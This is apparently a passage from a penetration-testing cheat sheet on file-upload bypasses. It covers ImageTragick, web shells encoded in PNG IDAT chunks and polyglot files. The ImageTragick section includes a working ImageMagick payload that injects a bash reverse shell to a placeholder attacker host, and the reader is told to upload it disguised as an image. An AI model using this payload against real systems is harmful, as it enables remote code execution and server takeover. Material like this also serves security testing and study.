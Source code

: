     ![https://blog.silentsignal.eu/wp-content/uploads/2014/01/b1-300x106.png](https://blog.silentsignal.eu/wp-content/uploads/2014/01/b1-300x106.png)
    
    **Reference**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)
    
- **ImageTragic**
    
    Upload this content with an image extension to exploit the vulnerability **(ImageMagick , 7.0.1-1)**
    
    ```
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(<https://127.0.0.1/test.jpg>"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
    pop graphic-context
    
    ```
    
- **Embedding PHP Shell on PNG**
    
    The primary reason putting a web shell in the IDAT chunk is that it has the ability to bypass resize and re-sampling operations - PHP-GD contains two functions to do this [imagecopyresized](http://php.net/manual/en/function.imagecopyresized.php) and [imagecopyresampled](http://php.net/manual/en/function.imagecopyresampled.php).
    
    Read this post: [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
    
- **Polyglot Files**
    
    Polyglots, in a security context, are files that are a valid form of multiple different file types. For example, a [GIFAR](https://en.wikipedia.org/wiki/Gifar) is both a GIF and a RAR file. There are also files out there that can be both GIF and JS, both PPT and JS, etc.
    
    Polyglot files are often used to bypass protection based on file types. Many applications that allow users to upload files only allow uploads of certain types, such as JPEG, GIF, DOC, so as to prevent users from uploading potentially dangerous files like JS files, PHP files or Phar files.
    
    This helps to upload a file that complins with the format of several different formats. It can allows you to upload a PHAR file (PHp ARchive) that also looks like a JPEG, but probably you will still needs a valid extension and if the upload function doesn't allow it this won't help you.
    
    More information in: [https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a](https://medium.com/swlh/polyglot-files-a-hackers-best-friend-850bf812dd8a)